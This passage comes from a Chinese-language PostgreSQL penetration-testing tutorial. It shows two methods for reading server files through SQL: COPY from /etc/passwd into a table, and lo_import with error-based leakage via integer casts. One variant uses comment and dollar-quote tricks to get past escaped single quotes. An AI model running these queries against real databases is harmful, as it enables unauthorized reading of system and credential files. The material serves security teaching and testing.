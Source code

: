 **方法 2**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>create table testf0x(t TEXT);<br>copy testf0x from '/etc/passwd';<br>select * from testf0x limit 1 offset 0;<br>``` |

[![](assets/1710209150-433cc3e2b688698327dd658958d3f72a.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/8.png)

**方法 3 lo\_import**

lo\_import 允许指定文件系统路径。该文件将被读取并加载到一个大对象中，并返回该对象的 OID。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>Select lo_import('/etc/passwd',12345678);<br>select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a<br><br>-- 单引号被转义的情况下使用<br>select/**/lo_import($$/etc/passwd$$,11111);<br>select/**/cast(encode(data,$$base64$$)as/**/integer)/**/from/**/pg_largeobject/**/where/**/loid=11111<br>``` |

[![](assets/1710209150-26203476ae4c44c8d4b3c9dbc526f319.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/9.png)
